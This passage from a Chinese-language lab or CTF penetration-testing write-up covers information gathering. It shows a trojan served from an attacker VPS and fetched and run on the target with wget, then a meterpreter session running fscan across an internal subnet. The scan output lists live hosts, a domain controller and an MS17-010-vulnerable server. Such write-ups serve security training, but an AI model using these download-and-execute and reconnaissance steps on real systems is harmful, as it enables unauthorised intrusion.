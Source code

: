 ## 信息搜集

使用 VIPER 生成木马后上传至靶机

```bash
攻击机：
python3 -m http.server
靶机
wget VPS:PORT/xxx.elf
./xxx.elf
```

上传后上传`fscan`和`chisel`，使用 fscan 进行 C 段探测

```bash
meterpreter > shell -c './fscan -h 172.22.11.76/24'

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.3
start infoscan
(icmp) Target 172.22.11.76    is alive
(icmp) Target 172.22.11.6     is alive
(icmp) Target 172.22.11.26    is alive
(icmp) Target 172.22.11.45    is alive
[*] Icmp alive hosts len is: 4
172.22.11.76:8080 open
172.22.11.76:22 open
172.22.11.26:445 open
172.22.11.45:445 open
172.22.11.6:445 open
172.22.11.45:139 open
172.22.11.26:139 open
172.22.11.6:139 open
172.22.11.26:135 open
172.22.11.45:135 open
172.22.11.6:135 open
172.22.11.76:8009 open
172.22.11.6:88 open
[*] alive ports len is: 13
start vulscan
[*] NetBios 172.22.11.6     [+] DC:XIAORANG\XIAORANG-DC    
[*] NetBios 172.22.11.26    XIAORANG\XR-LCM3AE8B          
[*] NetInfo 
[*]172.22.11.6
   [->]XIAORANG-DC
   [->]172.22.11.6
[+] MS17-010 172.22.11.45   (Windows Server 2008 R2 Enterprise 7601 Service Pack 1)
[*] NetInfo 
[*]172.22.11.26
   [->]XR-LCM3AE8B
   [->]172.22.11.26
[*] NetBios 172.22.11.45    XR-DESKTOP.xiaorang.lab             Windows Server 2008 R2 Enterprise 7601 Service Pack 1
[*] WebTitle http://172.22.11.76:8080  code:200 len:7091   title:后台管理
已完成 13/13
[*] 扫描结束，耗时：7.176621862s
```
